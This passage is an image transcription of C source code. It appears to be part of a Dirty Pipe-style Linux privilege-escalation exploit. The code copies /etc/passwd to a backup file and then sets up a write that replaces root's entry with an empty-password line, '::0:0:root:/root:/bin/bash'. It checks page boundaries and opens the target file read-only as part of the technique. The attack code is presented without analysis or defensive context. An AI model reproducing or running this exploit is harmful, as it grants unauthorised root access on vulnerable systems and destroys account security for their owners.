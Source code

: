       52.   53.         if (f1 == NULL) {
    
      54.             printf("Failed to open /etc/passwd\n");
    
      55.             exit(EXIT_FAILURE);
    
      56.         } else if (f2 == NULL) {
    
      57.             printf("Failed to open /tmp/passwd.bak\n");
    
      58.             fclose(f1);
    
      59.             exit(EXIT_FAILURE);
    
      60.         }
    
      61.   62.         char c;
    
      63.         while ((c = fgetc(f1)) != EOF)
    
      64.             fputc(c, f2);
    
      65.   66.         fclose(f1);
    
      67.         fclose(f2);
    
      68.   69.     loff_t offset = 4; // after the "root"
    
      70.     const char *const data = "::0:0:root:/root:/bin/bash\n";    // clean password
    
      71.         printf("Clean password Success!\n");
    
      72.     const size_t data_size = strlen(data);
    
      73.   74.     if (offset % PAGE_SIZE == 0) {
    
      75.         fprintf(stderr, "Sorry, cannot start writing at a page boundary\n");
    
      76.         return EXIT_FAILURE;
    
      77.     }
    
      78.   79.     const loff_t next_page = (offset | (PAGE_SIZE - 1)) + 1;
    
      80.     const loff_t end_offset = offset + (loff_t)data_size;
    
      81.     if (end_offset > next_page) {
    
      82.         fprintf(stderr, "Sorry, cannot write across a page boundary\n");
    
      83.         return EXIT_FAILURE;
    
      84.     }
    
      85.   86.     /* open the input file and validate the specified offset */
    
      87.     const int fd = open(path, O_RDONLY); // yes, read-only! :-)
    
      88.     if (fd < 0) {
    
      89.         perror("open failed");
    
      90.         return EXIT_FAILURE;
    
      91.     }
    